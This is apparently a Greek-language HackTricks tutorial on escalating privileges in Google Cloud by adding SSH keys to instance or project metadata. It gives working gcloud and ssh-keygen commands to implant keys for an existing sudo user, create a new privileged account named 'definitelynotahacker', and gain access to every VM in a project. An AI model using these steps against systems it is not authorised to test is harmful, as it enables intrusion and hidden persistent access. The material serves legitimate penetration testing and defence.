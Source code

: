 # GCP - Προσθήκη Προσαρμοσμένων Μεταδεδομένων SSH

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Τροποποίηση των μεταδεδομένων <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Η τροποποίηση των μεταδεδομένων σε μια εικόνα μπορεί να οδηγήσει σε **σημαντικούς κινδύνους ασφαλείας εάν ένας εισβολέας αποκτήσει τις απαραίτητες άδειες**.

### **Ενσωμάτωση Κλειδιών SSH στα Προσαρμοσμένα Μεταδεδομένα**

Στο GCP, τα **συστήματα Linux** συχνά εκτελούν σενάρια από το [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Ένα κρίσιμο στοιχείο αυτού είναι το [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), το οποίο είναι σχεδιασμένο να **ελέγχει τακτικά** το σημείο των μεταδεδομένων της εικόνας για **ενημερώσεις στα εξουσιοδοτημένα δημόσια κλειδιά SSH**.

Συνεπώς, εάν ένας εισβολέας μπορεί να τροποποιήσει τα προσαρμοσμένα μεταδεδομένα, μπορεί να κάνει τον δαίμονα να βρει ένα νέο δημόσιο κλειδί, το οποίο θα επεξεργαστεί και **θα ενσωματωθεί στο τοπικό σύστημα**. Το κλειδί θα προστεθεί στο αρχείο `~/.ssh/authorized_keys` ενός **υπάρχοντος χρήστη ή ενδεχομένως δημιουργώντας ένα νέο χρήστη με δικαιώματα `sudo`**, ανάλογα με τη μορφή του κλειδιού. Και ο εισβολέας θα μπορεί να διακινδυνεύσει τον υπολογιστή.

### **Προσθήκη κλειδιού SSH σε υπάρχον προνομιούχο χρήστη**

1. **Εξέταση των Υπαρχόντων Κλειδιών SSH στην Εικόνα:**
- Εκτελέστε την εντολή για να περιγράψετε την εικόνα και τα μεταδεδομένα της για να εντοπίσετε τα υπάρχοντα κλειδιά SSH. Η σχετική ενότητα στην έξοδο θα βρίσκεται υπό τα `metadata`, ειδικά το κλειδί `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Προσέξτε τη μορφή των κλειδιών SSH: το όνομα χρήστη προηγείται του κλειδιού, χωρίζονται με ένα άνω-κάτω τελεία.

2. **Προετοιμασία Αρχείου Κειμένου για τα Κλειδιά SSH:**
- Αποθηκεύστε τις λεπτομέρειες των ονομάτων χρηστών και των αντίστοιχων κλειδιών SSH τους σε ένα αρχείο κειμένου με το όνομα `meta.txt`. Αυτό είναι απαραίτητο για τη διατήρηση των υπαρχόντων κλειδιών καθώς προσθέτετε νέα.

3. **Δημιουργία Νέου Κλειδιού SSH για τον Στόχο Χρήστη (`alice` σε αυτό το παράδειγμα):**
- Χρησιμοποιήστε την εντολή `ssh-keygen` για να δημιουργήσετε ένα νέο κλειδί SSH, εξασφαλίζοντας ότι το πεδίο σχολίου (`-C`) ταιριάζει με το όνομα χρήστη στόχο.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Προσθέστε το νέο δημόσιο κλειδί στο `meta.txt`, μιμούμενοι τη μορφή που βρέθηκε στα μεταδεδομένα της εικόνας.

4. **Ενημέρωση των Μεταδεδομένων Κλειδιών SSH της Εικόνας:**
- Εφαρμόστε τα ενημερωμένα μεταδεδομένα κλειδιών SSH στην εικόνα χρησιμοποιώντας την εντολή `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Πρόσβαση στην Εικόνα Χρησιμοποιώντας το Νέο Κλειδί SSH:**
- Συνδεθείτε στην εικόνα με SSH χρησιμοποιώντας το νέο κλειδί, έχοντας πρόσβαση στο κέλυφος στο πλαίσιο του χρήστη στόχου (`alice` σε αυτό το παράδειγμα).
```bash
ssh -i ./key alice@localhost
sudo id
``` 

### **Δημιουργία νέου προνομιούχου χρήστη και προσθήκη ενός κλειδιού SSH**

Αν δεν βρεθεί κάποιος ενδιαφέρον χρήστης, είναι δυνατό να δημιουργηθεί ένας νέος στον οποίο θα δοθούν προνόμια `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Κλειδιά SSH στο επίπεδο έργου <a href="#sshing-around" id="sshing-around"></a>

Είναι δυνατόν να επεκτείνετε την πρόσβαση SSH σε πολλές Εικονικές Μηχανές (VMs) σε ένα περιβάλλον στο cloud με το **εφαρμογή κλειδιών SSH στο επίπεδο έργου**. Αυτή η προσέγγιση επιτρέπει την πρόσβαση SSH σε οποιαδήποτε μονάδα εντός του έργου που δεν έχει αποκλείσει ρητά τα κλειδιά SSH σε επίπεδο έργου. Εδώ υπάρχει ένα περιληπτικό οδηγό:

1. **Εφαρμογή Κλειδιών SSH στο Επίπεδο Έργου:**
- Χρησιμοποιήστε την εντολή `gcloud compute project-info add-metadata` για να προσθέσετε τα κλειδιά SSH από το `meta.txt` στα μεταδεδομένα του έργου. Αυτή η ενέργεια εξασφαλίζει ότι τα κλειδιά SSH αναγνωρίζονται σε όλες τις VMs στο έργο, εκτός αν μια VM έχει ενεργοποιημένη την επιλογή "Αποκλεισμός κλειδιών SSH σε επίπεδο έργου".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Σύνδεση σε Μονάδες Χρησιμοποιώντας Κλειδιά Σε Όλο το Έργο:**
- Με τα κλειδιά SSH σε επίπεδο έργου στη θέση τους, μπορείτε να συνδεθείτε μέσω SSH σε οποιαδήποτε μονάδα εντός του έργου. Οι μονάδες που δεν αποκλείουν τα κλειδιά σε επίπεδο έργου θα δεχτούν το κλειδί SSH, παρέχοντας πρόσβαση.
- Ένας άμεσος τρόπος για σύνδεση με μια μονάδα είναι η χρήση της εντολής `gcloud compute ssh [INSTANCE]`. Αυτή η εντολή χρησιμοποιεί το τρέχον όνομά χρήστη σας και τα κλειδιά SSH που έχουν οριστεί σε επίπεδο έργου για να προσπαθήσει την πρόσβαση.

# Αναφορές
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

